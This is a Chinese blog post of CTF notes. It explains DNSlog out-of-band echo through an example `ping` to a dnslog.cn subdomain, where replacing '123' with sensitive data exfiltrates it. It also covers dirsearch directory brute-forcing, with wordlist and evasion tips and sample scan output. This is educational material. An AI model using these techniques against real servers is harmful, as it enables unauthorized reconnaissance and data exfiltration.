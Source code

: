 ```yaml
---
layout: post
title: "DNS回显与dirsearch"
date: 2025-05-14
tags: [二进制，gdb，DNSlog，回显，dirsearch，字典，Web]
---
```


### 回显工具：DNSlog
DNS服务器在域名解析过程中，会写日志。解析域名时可以外带出某些服务器敏感信息。可以在`DNSlog`中回显。
###### 一个简单的例子
1. 在DNSlog中，`get subdomain`获得三级域名`o71jc0.dnslog.cn`。  
2. 本地使用ping命令，`ping 123.o71jc0.dnslog.cn`。  
3. 在DNSlog网页中可以记录到域名解析缓存。  
4. 这里解析到的是`123`，但若将`123`替换为某些敏感信息，即可实现回显。

###### 适用场景
1. 无回显的命令执行


###### 一些常见的DNSlog工具
`https://www.dnslog.cn`

> 当然，也可以搭建自己的DNSLog

### web目录扫描工具：dirsearch.exe
> python的开源项目dirsearch。在windows中同版本可执行文件dirsearch.exe

+ 用于CTF信息搜集阶段，通过字典攻击的方式发现网站中可能存在的隐藏目录、文件、后台路径等。
    + 隐藏后台`/admin_panel/`
    + 备份文件`/site.zip`、`index.bak`
    + 隐藏页面`/flag`  

###### 安装与使用
1. `pip3 install dirsearch`
2. 使用方法与举例 `Usage: dirsearch [-u|--url] target [-e|--extensions] extensions [options]`
    + `-u`: 目标 URL
    + `-e`: 指定要扫描的文件扩展名（多个用逗号分隔）
        + 多试试不同的扩展名`.php, .bak, .zip, .tar.gz`
    + `-x` 403,404: 忽略指定状态码
    + `-w`: 指定字典（可选）
        + 默认使用内置字典`/wordlists/`：
        + `common.txt`, `extensions_common.txt`, `small.txt,medium.txt,big.txt`（不同的扫描力度）,`apache.txt,iis.txt, nginx.txt`（针对不同的web服务）
        + 当然也可以指定使用其他字典。如[seclists](https://github.com/danielmiessler/SecLists)
        + 建议：从`common.txt` 或 `small.txt` 开始，快速爆破。若扫不到，再逐步加大字典规模
    + 若被防护系统限制，可设置 `--random-agents` 模拟不同浏览器


```bash
PS C:\Users\xxx> dirsearch.exe -u http://47.105.113.86:40003/

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: C:\Users\xxx\reports\http_47.105.113.86_40003\__25-05-11_16-50-10.txt

Target: http://47.105.113.86:40003/

[16:50:10] Starting:
[16:50:42] 403 -  295B  - /.ht_wsr.txt
[16:50:42] 403 -  298B  - /.htaccess.bak1
...
```

